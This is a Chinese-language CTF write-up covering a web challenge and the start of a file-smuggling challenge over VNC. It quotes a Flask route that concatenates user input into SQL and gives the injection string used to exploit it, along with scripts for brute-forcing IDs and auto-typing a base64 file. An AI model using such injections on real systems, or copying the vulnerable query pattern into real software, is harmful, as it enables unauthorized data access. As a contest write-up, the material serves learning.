 ```python
    return None

with concurrent.futures.ThreadPoolExecutor(max_workers=10) as executor:
    futures = {executor.submit(fetch_flag, id): id for id in conversation_id}
    for future in tqdm(concurrent.futures.as_completed(futures), total=len(conversation_id)):
        result = future.result()
        if result:
            print(result)

with open("found_flags.txt", "w") as f:
    for id in found_flags:
        f.write(f"{id}\n")
```

总共999个`conversation_id`，直接多线程找一下，找到flag之后，再手动点一下就行了。

得到第一个flag: `flag{zU1_xiA0_de_11m_Pa0lule!!!_203b3e25b0}`

第二个flag先看题目源码。

```python
# main.py
@app.route("/view")
def view():
    conversation_id = request.args.get("conversation_id")
    results = execute_query(f"select title, contents from messages where id = '{conversation_id}'")
    return render_template("view.html", message=Message(None, results[0], results[1]))
```

欸🤓👆，字符串拼接，一手SQL注入走起~ 将`conversation_id`设置为`' OR shown = true OR id='`

翻到最底下，得到第二个flag: `flag{enJ0y_y0uR_Sq1_&_1_would_xiaZHOU_hUI_guo_b84ba9498e}`

你问我字段哪里来？看看源码就好哩。

## 无法获得的秘密

这里只提供代码与思路，不传图片了，我懒，具体自己跑一下试试就知道了。

1. GitHub 搜一下 `QRCode file transfer`，找到[第一个repo](https://github.com/ganlvtech/qrcode-file-transfer)，下载下来，然后删除以下文件：
    - `js/FileSaver.min.js`
    - `js/decode.js`
    - `js/jsQR.js`
    - `decode.html`
    - `readme.md`
2. 删除文件后，用`bandizip`之类的压缩软件压缩成`tgz`格式的文件。
3. 写一个python代码，利用`pyautogui`将压缩文件的base64自动输入到vnc的终端中，输入过程接近3分钟（如果你网络好的话），代码如下，打开终端直接执行就好

   ```python
   import pyautogui
    import time
    import base64

    def file2b64(filename):
        with open(filename, "rb") as f:
            return base64.b64encode(f.read()).decode()

    text_to_type = file2b64("qrcode-file-transfer-main.tgz")
    print(text_to_type.__len__())

    time.sleep(2)
    pyautogui.typewrite("vim 1.txt")
    pyautogui.press('enter')
    time.sleep(0.1)
    pyautogui.press('i')
    # 每次输入100个字符然后换行是为了方式输入太快导致丢字符
   ```